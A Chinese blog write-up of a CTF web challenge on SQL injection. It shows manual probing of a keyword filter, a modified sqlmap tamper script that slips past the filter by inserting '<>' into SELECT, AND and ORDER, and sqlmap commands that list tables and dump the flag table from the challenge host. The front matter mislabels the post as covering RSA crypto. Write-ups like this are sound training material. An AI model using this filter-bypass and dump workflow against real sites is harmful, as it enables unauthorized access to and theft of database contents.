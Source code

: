 ```yaml
---

layout: post
title:  CTF竞赛-SQL注入
description: 本文为Crypto加解密方向，主要记录一些RSA题目的合集
date:   2021-04-13 21:45:00 +0800
image:  '/images/gallery/wineglass-and-a-bowl-of-fruit.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Wineglass and a Bowl of Fruit  
Creator: Willem Kalf (Dutch, 1619–1693)  
Date Created: 1663  
Physical Dimensions: Framed: 81 x 70.5 x 7.5 cm (31 7/8 x 27 3/4 x 2 15/16 in.); Unframed: 60.3 x 50.2 cm (23 3/4 x 19 3/4 in.)  
Type: Painting  
Medium: oil on canvas  
Inscriptions: Signed and dated lower left: "W. KALF 1663"  
Fun Fact: Willem Kalf was the most accomplished proponent of the <em>pronkstilleven</em>, a Dutch term meaning "ostentatious still life."  
Department: European Painting and Sculpture  
Culture: Netherlands, 17th century  </cite>  

CTF竞赛题目类型主要包含 **Web 网络攻防** 、 **Reverse逆向工程** 、 **Pwn 二进制漏洞利用** 、 **Crypto 密码攻击** 、 **Mobile 移动安全** 以及 **Misc 安全杂项** 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #SQL#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值**50pt**，类型为**Web**，名称为【SQL】的题目：

![image-20210413211837458](images/posts/ctf/image-20210413211837458.png)

## 解题过程

题目内容：

出题人就告诉你这是个注入，有种别走！

题目很嚣张，进入靶场环境后，也很直接，告诉你flag就在数据库中。习惯性打开F12，调出**HackBar**:

![image-20210413212033452](images/posts/ctf/image-20210413212033452.png)

- 先一顿手工注入测试，基本上出现下面三种回显：

  1）明说是**注入代码**

  ![image-20210413212311861](images/posts/ctf/image-20210413212311861.png)

  2）空白

  ![image-20210413212415559](images/posts/ctf/image-20210413212415559.png)

  3）**有效回显**

  ![image-20210413212510702](images/posts/ctf/image-20210413212510702.png)

- 时间过去了一大半，终于探测出来了个大概：

  - select、and、or、order等关键词会被检测直接标记**inj code**
  - <>会被替换为空
  - union联合查询输出长度为3

- 下面开始祭出sqlmap大法，当然需要会使用基本的sqlmap语法，网上教程请自行慢慢享用

  另外还需要会编写sqlmap tamper的一点点知识

  这里，我找了个sqlmap自带的`escapequotes.py`的过滤语法：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      return payload.replace("'", "\\'").replace('"', '\\"')
  ```

  然后在此基础上，修改为刚刚找出来的几个关键词过滤，保存为自己的`mytam`：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      payload = payload.replace("SELECT", "SE<>LECT").replace('AND', 'AN<>D').replace("ORDER", "ORD<>ER")
      return payload
  ```

  重点就是替换了`select`、`and`、`order`三个关键词

- 然后放到sqlmap里跑一跑：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py`

  ![image-20210413213455006](images/posts/ctf/image-20210413213455006.png)

  因为我已经跑过一遍了，这里直接读取session拿到结果了，说明这里存在可以利用的sql漏洞

- 接下来获取数据库和表：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py --tables`

  ![image-20210413213706267](images/posts/ctf/image-20210413213706267.png)

  可以发现除了系统表以外，在sqli数据库里面存在两张表：info和users，大概率就在info表里了

- 直接查info表里的所有信息：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py -D sqli -T info --dump`

  ![image-20210413213857446](images/posts/ctf/image-20210413213857446.png)

至此，得到flag。

## 总结

这次题目主要针对sql注入，注意点有两个：

1、手工注入测试，找到过滤规则，这也是在实战中经常会需要绕过WAF的方法，多练就是了

2、sqlmap的熟练使用，会加快渗透测试流程。前提也是需要对sqlmap有一定的熟练程度
